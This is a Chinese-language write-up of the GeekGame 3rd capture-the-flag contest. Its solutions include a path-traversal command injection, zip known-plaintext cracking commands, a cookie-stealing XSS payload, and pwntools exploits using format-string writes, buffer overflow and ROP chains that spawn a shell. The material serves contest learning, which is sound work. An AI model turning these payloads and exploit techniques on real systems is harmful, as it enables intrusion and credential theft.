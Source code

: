 ## GeekGame 3rd Writeup

#### 前言

​	今年第二次来玩 geekgame，学了一点 ics 之后感觉没像去年那么坐牢了。

​	尽管有些题差一点解出来，但结果也还算令人满意。

​	~~今年使用了屯题战术，给榜带来了一点奇观（~~

#### prob23-signin 一眼盯帧 [Tutorial]

​	逐帧获取字符然后凯撒解密即可。

​	不知道为什么我的 stegsolve 没用了，最后用的 Pr（大炮打蚊子.jpg）

#### prob18-trivia 小北问答 [Turtorial]

​	**#1**:

​		去高性能计算平台官网，找手册即可：https://hpc.pku.edu.cn/_book/guide/slurm/slurm.html

​	**#2**:

​		去 github 上找到小米对应机型的代码仓库：https://github.com/MiCode/Xiaomi_Kernel_OpenSource/tree/corot-t-oss

​		在 Makefile 文件中可以找到版本号：5.15.78

```
VERSION = 5
PATCHLEVEL = 15
SUBLEVEL = 78
```

​	**#3**:

​		在 google 上搜索 "apple" "model identifier" 之类的，最终找到一份比较全的表格：https://www.theiphonewiki.com/wiki/Models

​	**#4**: 在 github 上找到 guiding-star 的后端代码对应逻辑的部分：

```python
DISALLOWED_CHARS = (
        unicode_chars('Cc', 'Cf', 'Cs', 'Mc', 'Me', 'Mn', 'Zl', 'Zp') # control and modifier chars
        | {chr(c) for c in range(0x12423, 0x12431+1)} # too long
        | {chr(0x0d78)} # too long
    ) - EMOJI_CHARS
```

​	本地 python 跑一下就知道答案了，注意只能用 py3.8（3.9 和 3.10 都错了呜呜呜)

​	**#5**:

​		找了一下 https://web.archive.org/ 有保存过去网页的功能。

​		输入 bilibili.com，唉怎么不行？哦原来以前 b 站的网址是 bilibili.us，进去翻翻即得答案。

​	**#6**:

​		以 "启迪控股" "konza" "kacst" 为关键字在 google 搜索，发现一个很符合条件的会议：http://www.iaspbo.com.cn/contents/2/533

​		可知本次活动应该在卢森堡举行。

​		同时截取部分白色建筑，放入google识图，得到这是卢森堡爱乐音乐厅，之后就简单了。

<img src='./src/trivia/Luxembourg.png' width=75%>

​		PS: flag 和题目背景都是 LoveLive 相关！~~希望大家多多支持魔爪女孩！冇问题啦！~~

​	

#### prob15-service 猫咪状态监视器 [Misc]

​	呜呜呜，之前怎么试都不行，提示看源码之后就很明朗了，代码审计这块还是完全不熟练。

​	发现只有 `STATUS` 命令能让用户注入内容。

​	使用 `cat /usr/sbin/service` 获取 service 脚本内容，关注到这段主要的命令：

```shell
run_via_sysvinit() {
   # Otherwise, use the traditional sysvinit
   if [ -x "${SERVICEDIR}/${SERVICE}" ]; then
      exec env -i LANG="$LANG" LANGUAGE="$LANGUAGE" LC_CTYPE="$LC_CTYPE" LC_NUMERIC="$LC_NUMERIC" LC_TIME="$LC_TIME" LC_COLLATE="$LC_COLLATE" LC_MONETARY="$LC_MONETARY" LC_MESSAGES="$LC_MESSAGES" LC_PAPER="$LC_PAPER" LC_NAME="$LC_NAME" LC_ADDRESS="$LC_ADDRESS" LC_TELEPHONE="$LC_TELEPHONE" LC_MEASUREMENT="$LC_MEASUREMENT" LC_IDENTIFICATION="$LC_IDENTIFICATION" LC_ALL="$LC_ALL" PATH="$PATH" TERM="$TERM" "$SERVICEDIR/$SERVICE" ${ACTION} ${OPTIONS}
   else
      echo "${SERVICE}: unrecognized service" >&2
      exit 1
   fi
}
```

​	发现它不过就是一种包装起来调用程序的形式，那么直接调用 `cat flag.txt` 就行了呗。

​	但是注意到运行目录是在 `/etc/init.d` 下，那么用 `../../` 退回根目录即可，输入 `../../usr/bin/cat /flag.txt` 即得



#### prob24-password 基本功 [Misc]

​	**flag1:**

​		观察压缩包，里面有个莫名其妙的 chromedriver，同时压缩加密方式是 ZipCrypto, Store。

​		搜索了一下 ZipCrypto 的破解方法，其中明文攻击看起来很适用。

​		在 chromedriver 下载页面上寻找大小为 5.57M 的版本，最终得到版号为 89.0.4389.23。

​		使用 ARCHPR 小工具破解即可。

​	**flag2:**

​		又看了一眼明文攻击的内容，只需要 12 个字节的明文，且其中 8 个字节连续就能破解。

​		搜索一下 pcapng 的文件格式。

​		文件分为若干块，第一块为文件头（其中 x 表示文件头块的大小）：

​			`0A0D0D0Axxxxxxxx` `4D3C2B1A01000000` `FFFFFFFFFFFFFFFF`

​		这些信息对于明文攻击完全够用！使用 bkcrack 工具解决即可：

```
bkcrack -C challenge_2.zip -c flag2.pcapng -p plain2.txt -o 8 -x 0 0a0d0d0a
bkcrack -C challenge_2.zip -c flag2.pcapng -k 152ef3dd 9cb3e97d c3ad256d -d flag2.pcapng
```



#### prob16-darkroom Dark Room [Misc]

​	**flag1:**

​		先手玩一下，发现要在 sanity ≥ 117 时到达终点，正常游玩肯定是不行的。

​		发现有个操作 help 能够小概率提升 san 值，既然有概率，那么可以用大量尝试来通过。

```python
from pwn import *
import re

ip = "prob16.geekgame.pku.edu.cn"
port = 10016
token = b"9:How do you know my uid is 9"

instructions = [
    "newgame",
    "wwj",
    "y",
    "n","n","e","pickup key",
    "w","s","s","e","e","e","pickup trinket",
    "w","s","usewith key door",
    "s","s","n","w","w","w","n","pickup key",
    "s","e","e","e","n","n","w","w","n","n","w","w","usewith key door","use trinket"
]

while True:

    sleep(2.5)

    r = remote(ip, port)

    r.sendline(token)
    r.recv()

    for ins in instructions:
        r.sendline(ins.encode())
        r.recvuntil(b"]:")

    san = 0
    while san < 117:
        r.sendline(b"h")
        s = r.recvuntil(b"]:").decode()
        san = re.search("\((-?\d+)%\)",s)
        san = int(san.group(1))
        if san < 0:
            break
        print(san)
    
    if san > 0:
        break

r.interactive()
```



#### prob22-minecraft 麦恩·库拉夫特 [Misc]

​	**flag1:**

​		在矿洞里走走就看到了

​	**flag2:**

​		根据提示，我们需要找钻石块。都 flag2 了，想必要用程序找位置。

​		查了一下 mc 区域格式文件 mca，好像普通方块存储的时候会进行压缩，处理起来很麻烦。

​		但是包含额外信息的方块是储存在方块实体（BlockEntity）数据内的，提取比较方便。

​		因此我魔改了 https://github.com/Rapha149/MCWorldTools 中的代码，使其能够找到其他方块实体。

​		通过寻找告示牌（minecraft:sign）的位置，成功找到了 flag2

​	~~**flag3:** 我服了这谁写的提示，写了跟没写一样 /fn。能找到 flag3 位置的，能不知道这是红石模电？~~



#### prob14-emoji Emoji Wordle [Web]

​	**flag1:**

​		答案固定的话，直接爆服务器就行！

```python
import emoji_data, requests, re

a = emoji_data.EmojiSequence.items()
a = [e for (e, _) in a]
a = list(filter(lambda x:len(x)==1, a))
print(a)
s = set()

answer = ['?'] * 64

def query(s):
    url = f"https://prob14.geekgame.pku.edu.cn/level1?guess={s}"

    html = requests.get(url).content.decode()
    print(html)

    result = re.match(r'[\s\S]*push\("(.*)"\)[\s\S]*', html)
    result = result.group(1)

    print(s, result)
    return result

for p in range(0, len(a), 64):
    result = query(''.join(a[p:p+64]))

    for i, r in enumerate(result):
        if r == '🟨':
            s.add(a[p + i])

for c in s:
    result = query(c * 64)
    for i, r in enumerate(result):
        if (result[i] == '🟩'):
            answer[i] = c

print(''.join(answer))
```

​	**flag2: **

​		题目说了数据存在 SESSION 里，打开 SESSION 一看，base64 一解密，这不是答案吗？



#### prob01-homepage 第三新XSS [Web]

​	**flag1:**

​		阅读代码，发现程序把 flag 放在 /admin 路径下的 cookie，然后再获取自定义网页的 title。

​		查阅跨路径 cookie 相关资料，发现可以用 iframe 标签访问 /admin，以此取得 cookie。

​		payload 如下：

```html
<body>
<a>test</a>

<script>

xc=function(src){
 var o = document.createElement("iframe");
 o.src = src;
 document.getElementsByTagName("body")[0].appendChild(o);
 o.onload=function()
 {
     d=o.contentDocument||o.contentDocument.document;
     document.title=d.cookie;
 };
}("http://prob99-myuidis9.geekgame.pku.edu.cn/admin/");

</script>
</body>
```



#### prob13-easyts 简单的打字稿 [Web]

​	**flag1:**

​		翻了一下关于 TS 的资料，突然发现有一篇能用上：https://juejin.cn/post/6867538991073296392 

​		可以通过 type manipulation 把 flag1 中 'flag' 去除，从而通过报错来输出。

```typescript
type ReplaceOnce<Search extends string, Replace extends string, Subject extends string> =
    Subject extends `${infer L}${Search}${infer R}` ? `${L}${Replace}${R}` : Subject

type filtered = ReplaceOnce<"flag", "", flag1>;
const a : filtered = false;
```



#### prob25-krkr 汉化绿色版免费下载 [Binary]

​	**flag1:**

​		在判断两个字符串相等后，程序输出了 flag1，但是字体颜色与背景颜色一样。使用 Cheat Engine 搜索内存数据即可。

​	**flag2:**

​		~~呜呜，我为什么不听 flag1 的话去解包 xp3。[快哭了]~~

​		根据提示使用工具（我用的 crass）解包游戏数据。

​			1. 在 `round1.ks` 中可以发现程序是使用字符串 hash 判断两字符串是否相等。

​			2. 在 `data0.kdt` 中可以找到存档中字符串的 hash 值。

​			3. 在 `Config.tjs` 中发现一个自动记录的逻辑。

```text
// ◆ 自动记录已读文章
//选择是否自动记录已读的剧本标签。
//如果这个设定为true，则每次通过标签时都会给系统变量中的
//trail_剧本_剧本文件名_标签名
//这个变量的值+1
//比如first.ks中*start这个标签的话，对应的变量名称将是trail_first_start。
```

​			4. 在 `datasu.ksd` 中找到了对应的自动记录数据。

​		因此，得到字符串中含有 6 个 A，3 个 E，1 个 I，6 个 U，使用程序搜索即可。

```c++
#include <bits/stdc++.h>

std::string a = "AAAAAAEEEIOOOOOO";

const int mod = 19260817;

int get_offset(char c) {
    switch(c) {
        case 'A': return 11;
        case 'E': return 22;
        case 'I': return 33;
        case 'O': return 44;
        case 'U': return 55;
        case '}': return 66;
    }
    return -1;
}

int main() {
    do {
        int hash = 1337;
        for (char c : a) {
            hash = ((long long) hash * 13337 + get_offset(c)) % mod;
        }
        hash = ((long long) hash * 13337 + get_offset('}')) % mod;
        if (hash == 7748521) {
            std::cout << a << std::endl;
        }
    } while (std::next_permutation(a.begin(), a.end()));
    return 0;
}
```



#### prob09-easyc 初学 C 语言 [Binary]

​	**flag1:**

​		`checksec` 一下发现各项防御都开了。

​		观察代码，主要注入点是 `printf` 的格式化字符串。

​		程序读取文件，放到栈上的缓冲区，然而 x86-64 调用函数取第 6 个往后的参数会从栈里取，因此我们可以通过这种方式读取栈上数据。

```python
payload1 = "%d " * 5 + "%016llx," * 50

print(payload1)
```

​		再对读取到的数据进行解码：

```python
solve1 = [0x3445727b67616c66,0x66546e3172505f64,0x6f735f656430635f,0x000a7d597a34655f]
b = []
for ll in solve1:
    for p in range(8):
        b += [(ll >> (p * 8)) & 255]
print(bytes(b))
```



​	**flag2:**

​		希望使用 ROP 劫持系统的 shell，首先一个问题是怎么往栈上 return 地址写入值。

​		`printf` 有一个不常用的格式 `%n`，用处是把之前输出的字符数写入到对应参数（指针）指向的位置。

​		类似的有 `%lln`，`%hn`，`%hhn` 等，可以写入不同的大小。

​		因此我们可以把任意的地址塞进字符串里（现在这个地址在栈上），然后用这个方法把任意数值写入地址。

```python
def write_bytes(offset, data, absolute=False):
    rsp = get_rsp()
    for i, b in enumerate(data):
        print(f"debug: writing byte {i}, {b}")
        pos = offset + i
        if not absolute:
            pos += rsp + 0x4f0
        f = f'%{b}c%38$hhn' if b else '%38$hhn'
        f = f.encode()
        payload = f + b'\0' * (0x20 - len(f)) + p64(pos) # 此处把地址 pos 对齐到固定位置，方便 printf 调用
        print("payload: ", payload)
        p.sendline(payload)
        sleep(.05)
        p.recvuntil(b'instruction')
```

​		另外一个任务是获取 %rsp 的值，这样才能精确写入 return 地址。

​		发现代码中的 publics 字符串是在栈上的，同时 publics 也作为 printf 的第二参数，直接使用 %p 即可输出 %rsp（带点偏移）。

```python
def get_rsp():
    p.sendline(b"(((%p)))")
    sleep(.05)
    ret = find_hex(p.recvuntil(b"instruction")) - 0x60
    print(f"found rsp: {hex(ret)}")
    return ret
```

​		然而程序中没有 system 函数和 "/bin/sh" 字符串。提示给出的文档指出可以使用 ret2syscall。

​		由于程序开启了 PIE 防护，我们还得找到程序的基址，这样才能利用各个 gadget。我使用栈上返回 __libc_start_main 函数的地址，取得程序基址。

```python
p1 = b'%167$p'
p.recvuntil(b"instruction")
p.sendline(p1)

ret = p.recvuntil(b"instruction")
ret = find_hex(ret)

base_addr = ret - 0xAC20
```

​		syscall (0F 05) 指令的作用是，调用系统操作如 read, write, execve 等，这里就希望使用 execve("/bin/sh", 0, 0) 来劫持进程。

​		根据文档 https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit，我们需要使 %rax=0x3b；%rdi="/bin/sh"；%rsi=0；%rdx=0，修改这些寄存器的值，可以简单通过 pop 指令实现，只需要在程序中找到相应 gadget 即可。其中字符串可以往栈前面随便一个位置写入。

```python
rsp = get_rsp()
binsh_pos = rsp + 0x1000
write_bytes(binsh_pos, b"/bin/sh\0", absolute=True)

pop_rax = base_addr + 0x5a777	# pop %rax; ret
pop_rdi = base_addr + 0x9cd2	# pop %rdi; ret
pop_rsi = base_addr + 0x1781e	# pop %rsi; ret
pop_rdx = base_addr + 0x9bdf	# pop %rdx; ret
syscall = base_addr + 0x9643	# syscall

write_bytes(8, 
            p64(pop_rax)
        +   p64(0x3b)
        +   p64(pop_rdi)
        +   p64(binsh_pos)
        +   p64(pop_rdx)
        +   p64(0)
        +   p64(pop_rsi)
        +   p64(0)
        +   p64(syscall)
)

retback()

p.interactive()
```

​		完整 EXP 见 `./src/easyc/solve2.py`。



#### prob10-babystack Baby Stack [Binary]

​	**flag1:**

​		checksec 一下，PIE 和 Canary 都没开。

​		没给源码，IDA 看看先。

​		发现 readline 的时候，用了 `(unsigned)l - 1 <= i`的方法，使 `l = 0`，无符号数的溢出使判断无效。

​		接着就用简单的 ROP 跳转到给定的 `backdoor`函数。

```python
from pwn import *

ip = "prob10.geekgame.pku.edu.cn"
token = b"9:How do you know my uid is 9"
port = 10010

r = remote(ip, port)
r.sendline(token)

backdoor_addr = 0x4011b6
ret_addr = 0x40136c

payload = b'0\n' + b"A" * 120 + p64(ret_addr) + p64(backdoor_addr)

print(r.recv())
r.sendline(payload)

r.interactive()
```

​	**flag2:**

​		沿用和上一题一样的思路，在 printf 的格式化字符串上做文章。

​		首先一个难点是 scanf, printf 遇到 \0 就截断（64 位程序指针一般都有一个 0 字节），加上程序只运行一次，非常不方便注入。

​		因此考虑每次运行都把 main 函数 return 的地址改为 main，让其再运行一次。

​		这样发现了一个小问题，就是有些操作需要 %rsp 16 对齐，我的办法是跳转到 main+6 的位置（少 pop 一个数）。

​		接下来就是如何写数据了，每次运行 main 有三次读入，

​		我采用的办法是：第一次读入给出地址，第二次读入往该地址写入值，第三次读入修改 return 地址。

```python
def inject_start(payload1, payload2, payload3=b"bye", return_pos = main + 0x6, return_to_main=False, first_time=False):
    print(payload1, payload2, payload3)
    p.sendline(payload1)
    sleep(.05)
    p.sendline(payload2)
    sleep(.05)
    padding = 0x38
    if return_to_main:
        assert len(payload3) <= padding
        payload3 = payload3 + b"A" * (padding - len(payload3))
        payload3 = payload3 + p64(return_pos)
    p.sendline(payload3)
    sleep(.05)
    res = p.recvuntil(b'luck~:)')
    print(res)
    return res

for i, byte in enumerate(writing_bytes):
    if (byte == 0):
        f = f'%14$hhn'
    else:
        f = f'%{byte}c%14$hhn'
    inject_start(p64(start_pos + i), f.encode(), return_to_main=True)
    print(f"number: {i}")
```

​		由于 libc 开了 PIE，还是使用类似的方法，通过 __libc_start_main 找到 libc 的基址，调用 libc 中的 system("/bin/sh")

```python
writing_bytes = (
    [(ret_addr     >> (8 * i)) & 255 for i in range(8)] +	# 为了 %rsp 16 对齐
    [(pop_rdi_addr >> (8 * i)) & 255 for i in range(8)] +
    [(binsh_addr   >> (8 * i)) & 255 for i in range(8)] +
    [(system_addr  >> (8 * i)) & 255 for i in range(8)]
)
```

​		还有一个细节是写入位置，每次 return main 后 rsp 会减去 0x10，写入地址要恰好在对应位置。我是用的 gdb 先看一下写入完后的偏移。

​		完整 EXP 见 `./src/babystack/c2.py`。



#### prob20-polynomial 绝妙的多项式 [Binary]

​		怎么感觉这题应该归到 Algo 里面去（

​	**flag1:**

​		IDA 看一下，发现里面有一个 mint 类实现了模 998244353 的整数运算。

​		阅读 flag1 对应的 sub_1803()，发现实际上在做一个多项式求值，在数据段给出了 1~36 的点值。

​		随便插值一下就行（因为一开始没看到模数，所以用的高斯消元，实际上有更好的方法比如 Lagrange 插值）

```python
data = [0x0CF6, 0x16C80709, 0x86B7BDA, 0x5FBEE9E, 0x24D1FFC1, 0x16F76AE2, 0x15F03305, 0x218C23F9, 0x33163AC1, 0x332C16E, 0x27E7B4A7, 0x241D8073, 0x1C6F122, 0x2D73DE13, 0x7FC0A09, 0x0D50F7B7, 0x261B1DD, 0x37E5BB8E, 0x0DA71DC5, 0x2DC3F20C, 0x0CCB13A, 0x2F6341E4, 0x0B0611DB, 0x0A382A1A, 0x103C09B2, 0x1CE2BE88, 0x19A9FD15, 0x2621CFC1, 0x2970DEAC, 0x8A463AA, 0x116C6D31, 0x222E9178, 0x33B9C9DD, 0x2F98D035, 0x0B8177A, 0x342611E8]

mod = 998244353
n = 36

matrix = [[0] * (n + 1) for i in range(n)]

def swap(i, j):
    for k in range(n + 1):
        matrix[i][k], matrix[j][k] = matrix[j][k], matrix[i][k]
def add(i, k, j):
    for p in range(n + 1):
        matrix[i][p] = (matrix[i][p] + k * matrix[j][p]) % mod

for i in range(n):
    matrix[i][n] = data[i]
    for j in range(n):
        matrix[i][j] = (i + 1) ** j % mod

for i in range(n):
    for j in range(i + 1, n):
        if (matrix[j][i]):
            swap(i, j)
            while (matrix[j][i]):
                add(i, -(matrix[i][i] // matrix[j][i]), j)
                swap(i, j)
                
s = ""
for i in range(n - 1, -1, -1):
    for c in range(32, 127):
        if (matrix[i][i] * c % mod == matrix[i][n]):
            ans = c
            s += chr(c)
            break
    
    for j in range(i):
        matrix[j][n] = (matrix[j][n] - ans * matrix[j][i]) % mod

print(s[::-1])
```

​	**flag2:**

​		进入 flag2 对应的 sub1AAE()，发现把字符串长度补齐到 2 的幂次，然后调用 sub_14BE()。

​		点进去 sub_14BE() 之后，学过算法竞赛的应该很熟悉这段代码，这是多项式运算重要的操作 FFT（Fast Fourier Transform）。

​		推测数组 dword_405280[] 中应该存储的是单位根，在 sub_1309() 中可以发现是使用的常用原根 3 来生成的单位根。

​		那么只要对数据进行一次 FFT 的逆变换即可。

```python
data = [0x0F49, 0x121, 0x31C44DFF, 0x9BBB244, 0x9CD2637, 0x99E9344, 0x3A1174D9, 0x2982CE42, 0x202A3E59, 0x3AD2F444, 0x655DAC3, 0x181AE6C1, 0x2FFCF1EE, 0x0AAE9419, 0x2016E6F4, 0x19CF9F98, 0x2DEA04C3, 0x89262F4, 0x18327C16, 0x373BD1D9, 0x938E62A, 0x36B7868B, 0x3813BCFE, 0x0D213F8D, 0x7E67F22, 0x38FCD76, 0x32A17A7E, 0x2386EE67, 0x382D9FD7, 0x2FA45664, 0x4CFE37E, 0x2AF595C, 0x2103E392, 0x1536B2BA, 0x1C46D639, 0x0B170DEB, 0x2104AB3D, 0x334666E4, 0x0D52FFE1, 0x144A6446, 0x242BCC46, 0x37BF7317, 0x3A97D9A, 0x3B329D1A, 0x724F983, 0x1ED8A93E, 0x25E09BB8, 0x18121D9E, 0x2E301013, 0x105E3542, 0x375ADF03, 0x51674FE, 0x2AC2758E, 0x352291E2, 0x375D7604, 0x338E6B2A, 0x0C8EB7EB, 0x2F5350DC, 0x20E81988, 0x35F5C18E, 0x8753392, 0x0CD0ACE9, 0x17DF5455, 0x1B91C2B0]

n = 64
mod = 998244353

invn = pow(n, mod - 2, mod)
w = pow(3, (mod - 1) // n, mod)

wn = [0] * n
wn[n // 2] = 1
for i in range(n // 2 + 1, n):
    wn[i] = wn[i - 1] * w % mod
for i in range(n // 2 - 1, 0, -1):
    wn[i] = wn[i * 2]


mid = 1
while (mid < n):
    for i in range(0, n, mid * 2):
        for j in range(0, mid):
            x, y = data[i + j], data[i + j + mid] * wn[j + mid] % mod
            data[i + j], data[i + j + mid] = (x + y) % mod, (x - y) % mod
    mid <<= 1

if (idft := 1):
    for i in range(1, n // 2):
        data[i], data[n - i] = data[n - i], data[i]
    for i in range(0, n):
        data[i] = data[i] * invn % mod

print(bytes(data))
```

​	**flag3:**

​		既然知道 sub_14BE() 是 FFT，很明显 sub_1627() 就是 FFT 逆变换，代码实际上是在做一个多项式乘法（但是截取了前 64 项）

​		但是由于 FFT 时长度是 128，没有发生溢出，因此还是能用多项式求逆还原出数据的。

```python
welcome = [0x77, 0x65, 0x6C, 0x63, 0x6F, 0x6D, 0x65, 0x20, 0x74, 0x6F, 0x20, 0x74, 0x68, 0x65, 0x20, 0x77, 0x6F, 0x72, 0x6C, 0x64, 0x20, 0x6F, 0x66, 0x20, 0x70, 0x6F, 0x6C, 0x79, 0x6E, 0x6F, 0x6D, 0x69, 0x61, 0x6C]

result = [0x2F6A, 0x5A72, 0x82BB, 0x0AB28, 0x0E0BA, 0x10431, 0x12D48, 0x13BA4, 0x1680F, 0x19B4C, 0x1A7C3, 0x1CF0C, 0x20372, 0x22B61, 0x21699, 0x25383, 0x26220, 0x2937A, 0x2ABFB, 0x2DC98, 0x2D6B3, 0x31C9D, 0x34098, 0x34EBC, 0x36C65, 0x3A27D, 0x3C317, 0x3DC21, 0x42900, 0x42A20, 0x46CA4, 0x47612, 0x49A6E, 0x4B259, 0x50845, 0x50666, 0x545CE, 0x55420, 0x5A3DE, 0x5C550, 0x5B2E2, 0x596FC, 0x59395, 0x5A07C, 0x57CF8, 0x57E0A, 0x57CBD, 0x5ADF7, 0x56512, 0x5872F, 0x58E27, 0x5AD27, 0x5936F, 0x594E2, 0x599BD, 0x5AA89, 0x5991C, 0x579AC, 0x573B4, 0x57A8B, 0x5A9EE, 0x58ACC, 0x5ABA2, 0x5B498]

answer = []

n = 64

for i in range(len(welcome), len(result)):
    welcome += [welcome[i % 34]]

for i in range(n):
    ans = result[i]
    for j in range(i):
        ans -= answer[j] * welcome[i - j]
    assert(ans % welcome[0] == 0)
    answer += [ans // welcome[0]]

print(bytes(answer))
```



#### prob04-filtered 关键词过滤喵，谢谢喵 [Algorithm喵]

​		阅读题目，发现这其实是一种 esolang，需要我们写几段对应程序喵。

​		由于有条件跳转和标签之类的，可以很容易实现函数的功能（就像汇编一样）喵。

​		因为之前玩过类似的游戏 A=B，所以这题做起来也很顺畅喵。

​	**flag1喵:**

​		可以在字符串结尾放入一个特殊字符用来分割输入与输出喵。

​		每次循环从开头删一个字符，并对输出 +1 喵。

​		+1 操作可以模拟一个进位的指针，碰到 0-8 直接替换加上去，碰到 9 改成 0 并前进一位喵。

```plain
    把【\Z】替换成【😡0】喵

循环：
    如果看到【\A😡】就跳转到【退出循环】喵

加一：
    把【\A[\s\S]】替换成【】喵
    把【\Z】替换成【😋】喵
    重复把【9😋】替换成【😋0】喵
    把【0😋】替换成【1】喵
    把【1😋】替换成【2】喵
    把【2😋】替换成【3】喵
    把【3😋】替换成【4】喵
    把【4😋】替换成【5】喵
    把【5😋】替换成【6】喵
    把【6😋】替换成【7】喵
    把【7😋】替换成【8】喵
    把【8😋】替换成【9】喵
    把【😡😋】替换成【😡1】喵

    如果看到【😡】就跳转到【循环】喵

退出循环：
    把【😡】替换成【】喵

    谢谢喵
```

​		注意输入可能有换行，不能用 . 而要用 [\s\S] 之类的喵。

​	**flag2喵:**

​		对长度进行排序，可以给每个字符串设置头尾指针喵。

​		每次循环移动一次头指针，如果两个指针相遇，说明这个字符串比较短喵，就把它放到最后去喵。

​		这样结果就是从小到大排序了喵。

```plain
    把【\n】替换成【😡\n😋】喵
    把【^】替换成【\n😋】喵
    把【$】替换成【😡\n】喵

循环：

    如果没看到【😋】就跳转到【跳出循环】喵

    重复把【\n([^\n]*)😋😡\n([\s\S]*)\Z】替换成【\n\2\n\1】喵

    把【😋(.)】替换成【\1😋】喵

    如果看到【[\s\S]】就跳转到【循环】喵

跳出循环：

    谢谢喵
```

​		这边有个小细节喵，我把开头结尾都放上了一个 \n 方便处理喵。

​	**flag3喵：**

​		居然要写一个 brainfuck 解释器喵。

​		首先要设计好 brainfuck 运行时的字符串结构喵：

​		我用的是 *[输出字符序列] **#** [BF 程序（其中含有程序指针）] **#** [“栈”（用来记录 [] 嵌套数量）] **#** [模拟纸带（含有当前内存指针）]* 喵。

​		然后根据程序指针右侧字符判断处理喵。

​			`+/-` ：对内存指针附近的值进行修改喵，修改方法和 flag1 一样喵（我为了方便使用 2 进制了喵）。

​			`<>`：移动内存指针喵，如果移出纸带，还需要额外扩展纸带喵。

​			`[`：若内存指针指向 0 就跳转到对应的 `]`右边喵，否则正常移动程序指针喵。

​			`]`：跳转到对应的 `[` 左边喵。

​			`.`：逐个判断内存指针的可能值，并写入输出喵。

```plain
字符串结构：output💙[inst. pointer🟠]program🧡[stack🟡][tape splitted by 💚][data pointer🟢] 喵

stack用于循环体的回调喵
data pointer位于所指数据的右侧喵

初始化：
    把【\n】替换成【】喵
    把【^】替换成【💙🟠】喵
    把【$】替换成【🧡0🟢】喵

执行命令：
    如果看到【🟠🧡】就跳转到【程序结束】喵
    如果看到【🟠>】就跳转到【指针右移】喵
    如果看到【🟠<】就跳转到【指针左移】喵
    如果看到【🟠\+】就跳转到【加一】喵
    如果看到【🟠-】就跳转到【减一】喵
    如果看到【🟠\.】就跳转到【输出】喵
    如果看到【🟠\[】就跳转到【开始循环体】喵
    如果看到【🟠\]】就跳转到【结束循环体】喵

    把【🟠(.)】替换成【\1🟠】喵

    如果看到【.】就跳转到【执行命令】喵

指针右移：
    把【🟠(.)】替换成【\1🟠】喵
右移：
    如果没看到【🟢💚】就跳转到【纸带右扩】喵
    把【🟢(💚\d+)([^\d]|$)】替换成【\1🟢\2】喵
    如果看到【.】就跳转到【执行命令】喵
纸带右扩：
    把【$】替换成【💚0】喵
    如果看到【.】就跳转到【右移】喵

指针左移：
    把【🟠(.)】替换成【\1🟠】喵
左移：
    如果没看到【💚\d+🟢】就跳转到【纸带左扩】喵
    把【(💚\d+)🟢】替换成【🟢\1】喵
    如果看到【.】就跳转到【执行命令】喵
纸带左扩：
    把【🧡】替换成【🧡0💚】喵
    如果看到【.】就跳转到【左移】喵

加一：
    把【🟠(.)】替换成【\1🟠】喵
    把【🟢】替换成【🟩🟢】喵
    重复把【1🟩】替换成【🟩0】喵
    把【0🟩】替换成【1】喵
    把【🟩】替换成【1】喵
    如果看到【.】就跳转到【执行命令】喵

减一：
    把【🟠(.)】替换成【\1🟠】喵
    把【🟢】替换成【🟩🟢】喵
    重复把【0🟩】替换成【🟩1】喵
    把【1🟩】替换成【0】喵
    把【([^\d])0+(1\d*🟢)】替换成【\1\2】喵
    如果看到【.】就跳转到【执行命令】喵

开始循环体：
    把【🟠(.)】替换成【\1🟠】喵
    如果看到【[^\d]0🟢】就跳转到【结束循环】喵
    如果看到【.】就跳转到【执行命令】喵
结束循环：
    把【🟠([^\[\]]+)】替换成【\1🟠】喵
    把【🟠\[(.*)🧡】替换成【[🟠\1🧡🟡】喵
    如果没看到【🟠\]】就跳转到【结束循环】喵
    如果没看到【🟡】就跳转到【已回到尾部】喵
    把【🟠\](.*)🟡】替换成【]🟠\1】喵
    如果看到【.】就跳转到【结束循环】喵
已回到尾部：
    把【🟠\]】替换成【]🟠】喵
    如果看到【.】就跳转到【执行命令】喵


结束循环体：
    把【([^\[\]]+)🟠】替换成【🟠\1】喵
    把【\]🟠(.*)🧡】替换成【🟠]\1🧡🟡】喵
    如果没看到【\[🟠】就跳转到【结束循环体】喵
    如果没看到【🟡】就跳转到【已回到头部】喵
    把【\[🟠(.*)🟡】替换成【🟠[\1】喵
    如果看到【.】就跳转到【结束循环体】喵
已回到头部：
    把【\[🟠】替换成【🟠[】喵
    如果看到【.】就跳转到【执行命令】喵


输出：
    把【🟠(.)】替换成【\1🟠】喵
    把【(💙.*[^\d]100000🟢.*)$】替换成【 \1】喵
    把【(💙.*[^\d]100001🟢.*)$】替换成【!\1】喵
	……
	此处省略 114514 行喵
	……
    把【(💙.*[^\d]1111010🟢.*)$】替换成【z\1】喵
